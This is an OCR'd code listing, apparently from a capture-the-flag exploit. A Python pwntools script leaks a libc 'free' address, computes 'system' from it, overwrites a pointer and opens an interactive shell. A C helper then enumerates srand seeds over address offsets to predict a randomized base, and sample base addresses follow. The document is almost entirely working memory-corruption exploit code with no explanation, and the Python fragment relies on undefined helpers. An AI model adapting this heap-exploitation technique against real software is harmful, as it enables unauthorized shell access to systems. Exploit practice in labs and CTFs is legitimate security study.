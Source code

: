```Python

leave_msg(4, payload_leak)
free_addr = show_msg(2)
ufree_addr = u64(free_addr + "\x00\x00")
print hex(ufree_addr - free_off + system_off)
leave_msg(2, p64(ufree_addr - free_off + system_off))
sh.send("2")#destroy a box
sh.recvuntil("5) huge\n> ")
sh.send(str("3"))

#leave_msg(4, num_of_As * 'A')
#print show_msg(4).split()
print "succeed"


sh.interactive()



#small 256
#normal 272
#free them
#big 544
#free normal again

```
```C
#include <stdlib.h>
#include <stdio.h>
#define SEED_OFF 0x202148
void proc_srand(unsigned int i)
{
	srand((unsigned int)(i + SEED_OFF));
	printf("\"%d\":%u,", rand(), (unsigned int)(i + SEED_OFF));
}

int main()
{
	//system("/bin/sh");
	printf("{");
	unsigned int i;
	for (i = 0x00000000; i < 0xffffe000; i += 0x1000)
	{
		proc_srand(i);
		/*if (i + SEED_OFF == 0x75b4148)
			getchar();*/
	}
	proc_srand(i);
	i += 0x1000;
	srand((unsigned int)(i + SEED_OFF));
	printf("\"%d\":%u}", rand(), (unsigned int)(i + SEED_OFF));
}

/*
0x000055dd139ce000
0x000055ce8c5e3000
0x000055aaadb17000
0x00005610214b0000
0x0000558f744b5000
0x000056038011e000
0x0000564d46904000
0x0000556e073b2000
*/
```